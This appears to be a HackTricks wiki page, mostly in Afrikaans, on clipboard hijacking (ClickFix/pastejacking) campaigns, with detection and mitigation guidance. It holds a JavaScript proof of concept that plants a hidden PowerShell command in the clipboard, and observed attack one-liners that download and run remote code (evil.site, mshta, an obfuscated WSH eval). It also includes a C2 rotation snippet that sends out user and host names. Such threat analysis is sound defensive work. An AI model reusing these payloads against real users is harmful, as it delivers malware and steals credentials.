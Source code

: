 # Clipboard Hijacking (Pastejacking) Attacks

{{#include ../../banners/hacktricks-training.md}}

> "Moet nooit iets plak wat jy nie self gekopieer het nie." – ou maar steeds geldende advies

## Oorsig

Clipboard hijacking – also known as *pastejacking* – misbruik die feit dat gebruikers gewoonlik opdragte kopieer-en-plak sonder om dit te inspekteer. 'n Kwaadaardige webblad (of enige JavaScript-ondersteunende konteks soos 'n Electron- of Desktop-toepassing) plaas programmaties deur 'n aanvaller beheerde teks in die stelselklembord. Slagoffers word gewoonlik aangemoedig, meestal deur sorgvuldig saamgestelde social-engineering-instruksies, om **Win + R** (Run dialog), **Win + X** (Quick Access / PowerShell) te druk, of 'n terminal te open en die klembordinhoud *plak*, wat dadelik willekeurige opdragte uitvoer.

Omdat **geen lêer afgelaai word en geen aanhangsel oopgemaak word nie**, omseil die tegniek die meeste e-pos- en webinhoud-sekuriteitskontroles wat aanhangsels, macros of direkte opdraguitvoering monitor. Die aanval is daarom populêr in phishing-veldtogte wat alledaagse malware-families soos NetSupport RAT, Latrodectus loader of Lumma Stealer lewer.

## JavaScript Bewys-van-Konsep
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Ouer veldtogte het `document.execCommand('copy')` gebruik, nuwer vertrou op die asynchrone **Clipboard API** (`navigator.clipboard.writeText`).

## Die ClickFix / ClearFake-proses

1. Gebruiker besoek 'n typosquatted of compromised site (bv. `docusign.sa[.]com`)
2. Ingespuite **ClearFake** JavaScript roep 'n `unsecuredCopyToClipboard()` helper aan wat stilweg 'n Base64-encoded PowerShell one-liner in die klembord stoor.
3. HTML-instruksies vertel die slagoffer om: *“Druk **Win + R**, plak die opdrag en druk Enter om die probleem op te los.”*
4. `powershell.exe` voer uit en laai 'n argief af wat 'n wettige uitvoerbare lêer plus 'n kwaadwillige DLL bevat (klassieke DLL sideloading).
5. Die loader decrypts additional stages, injects shellcode and installs persistence (e.g. scheduled task) – uiteindelik running NetSupport RAT / Latrodectus / Lumma Stealer.

### Voorbeeld NetSupport RAT Chain
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (wettige Java WebStart) soek sy gids vir `msvcp140.dll`.
* Die kwaadwillige DLL los dinamies API's op met **GetProcAddress**, laai twee binaries (`data_3.bin`, `data_4.bin`) af via **curl.exe**, dekripteer hulle met 'n rollende XOR-sleutel `"https://google.com/"`, injekteer die finale shellcode en pak **client32.exe** (NetSupport RAT) uit na `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. Laai `la.txt` af met **curl.exe**
2. Voer die JScript downloader binne **cscript.exe** uit
3. Haal 'n MSI payload af → plaas `libcef.dll` langs 'n gesigneerde toepassing → DLL sideloading → shellcode → Latrodectus.

### Lumma Stealer via MSHTA
```
mshta https://iplogger.co/xxxx =+\\xxx
```
Die **mshta**-aanroep lanseer 'n verborge PowerShell-skrip wat `PartyContinued.exe` aflaai, `Boat.pst` (CAB) uitpak, `AutoIt3.exe` herbou deur `extrac32` en lêerkonkatenasie, en uiteindelik 'n `.a3x`-skrip uitvoer wat browser credentials na `sumeriavgv.digital` exfiltrates.

## ClickFix: Clipboard → PowerShell → JS eval → Startup LNK with rotating C2 (PureHVNC)

Sommige ClickFix-campagnes slaan lêeraflaaie heeltemal oor en beveel slagoffers aan om 'n eenreël-opdrag te plak wat JavaScript via WSH aflaai en uitvoer, dit laat voortbestaan, en die C2 daagliks roteer. Voorbeeld van 'n waargenome ketting:
```powershell
powershell -c "$j=$env:TEMP+'\a.js';sc $j 'a=new
ActiveXObject(\"MSXML2.XMLHTTP\");a.open(\"GET\",\"63381ba/kcilc.ellrafdlucolc//:sptth\".split(\"\").reverse().join(\"\"),0);a.send();eval(a.responseText);';wscript $j" Prеss Entеr
```
Belangrike kenmerke
- Verdoezelde URL omgekeer tydens runtime om oppervlakkige inspeksie te ontduik.
- JavaScript maak homself persistent via Startup LNK (WScript/CScript), en kies die C2 volgens die huidige dag – wat vinnige domeinrotasie moontlik maak.

Minimale JS-fragment wat gebruik word om C2s volgens datum te roteer:
```js
function getURL() {
var C2_domain_list = ['stathub.quest','stategiq.quest','mktblend.monster','dsgnfwd.xyz','dndhub.xyz'];
var current_datetime = new Date().getTime();
var no_days = getDaysDiff(0, current_datetime);
return 'https://'
+ getListElement(C2_domain_list, no_days)
+ '/Y/?t=' + current_datetime
+ '&v=5&p=' + encodeURIComponent(user_name + '_' + pc_name + '_' + first_infection_datetime);
}
```
Die volgende fase ontplooi gewoonlik 'n loader wat persistensie vestig en 'n RAT (e.g., PureHVNC) aflaai, dikwels pinning TLS to a hardcoded certificate and chunking traffic.

Detection ideas specific to this variant
- Prosesboom: `explorer.exe` → `powershell.exe -c` → `wscript.exe <temp>\a.js` (or `cscript.exe`).
- Opstart-artefakte: LNK in `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup` wat WScript/CScript aanroep met 'n JS-pad onder `%TEMP%`/`%APPDATA%`.
- Registry/RunMRU en command‑line telemetrie wat `.split('').reverse().join('')` of `eval(a.responseText)` bevat.
- Herhaalde `powershell -NoProfile -NonInteractive -Command -` met groot stdin payloads om lang skripte te voer sonder lang opdragreëls.
- Geskeduleerde take wat daarna LOLBins uitvoer soos `regsvr32 /s /i:--type=renderer "%APPDATA%\Microsoft\SystemCertificates\<name>.dll"` onder 'n updater‑agtige taak/pad (bv. `\GoogleSystem\GoogleUpdater`).

Threat hunting
- Daagliks roterende C2-hostname(s) en URL's met die patroon `.../Y/?t=<epoch>&v=5&p=<encoded_user_pc_firstinfection>`.
- Korreleer clipboard write events gevolg deur Win+R-plak en dan onmiddellike `powershell.exe` uitvoering.

Blue-teams can combine clipboard, process-creation and registry telemetry to pinpoint pastejacking abuse:

* Windows Registry: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` hou 'n geskiedenis van **Win + R** opdragte – kyk vir abnormale Base64 / obfuscated inskrywings.
* Security Event ID **4688** (Process Creation) waar `ParentImage` == `explorer.exe` en `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* Event ID **4663** vir lêerskeppings onder `%LocalAppData%\Microsoft\Windows\WinX\` of tydelike vouers net voor die verdagte 4688‑gebeurtenis.
* EDR clipboard sensors (indien teenwoordig) – korreleer `Clipboard Write` gevolg onmiddellik deur 'n nuwe PowerShell‑proses.

## Mitigations

1. Browser hardening – disable clipboard write-access (`dom.events.asyncClipboard.clipboardItem` etc.) of vereis 'n gebruikergebaar.
2. Security awareness – leer gebruikers om *type* sensitiewe opdragte of eers in 'n teksredigeerder te plak.
3. PowerShell Constrained Language Mode / Execution Policy + Application Control om willekeurige one-liners te blokkeer.
4. Network controls – blokkeer uitgaande versoeke na bekende pastejacking en malware C2‑domeine.

## Related Tricks

* **Discord Invite Hijacking** often abuses the same ClickFix approach after luring users into a malicious server:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Verwysings

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)
- [Check Point Research – Under the Pure Curtain: From RAT to Builder to Coder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)

{{#include ../../banners/hacktricks-training.md}}
